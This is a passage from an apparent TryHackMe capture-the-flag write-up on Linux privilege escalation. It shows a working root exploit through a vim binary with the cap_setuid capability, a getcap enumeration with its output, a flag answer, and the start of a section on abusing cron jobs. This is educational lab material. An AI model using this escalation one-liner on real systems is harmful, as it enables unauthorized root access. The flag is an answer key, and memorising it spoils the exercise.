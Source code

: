 ### Complete the task described above on the target system 
```
karen@ip-10-10-162-116:~$ ./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

Erase is control-H (^H).
# id
uid=0(root) gid=1001(karen) groups=1001(karen)
# 

```

### How many binaries have set capabilities?

```
karen@ip-10-10-203-61:~$ getcap -r / 2>/dev/null

/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep

/home/karen/vim = cap_setuid+ep

/home/ubuntu/view = cap_setuid+ep

6
```

#### What other binary can be used through its capabilities?
view

#### What is the content of the flag4.txt file?
THM-9349843



## Task 9  - Privilege Escalation: Cron Jobs

Cron jobs are used to run scripts or binaries at specific times. By default, they run with the privilege of their owners and not the current user. While properly configured cron jobs are not inherently vulnerable, they can provide a privilege escalation vector under some conditions.
The idea is quite simple; if there is a scheduled task that runs with root privileges and we can change the script that will be run, then our script will run with root privileges.

Cron job configurations are stored as crontabs (cron tables) to see the next time and date the task will run.

Each user on the system have their crontab file and can run specific tasks whether they are logged in or not. As you can expect, our goal will be to find a cron job set by root and have it run our script, ideally a shell.
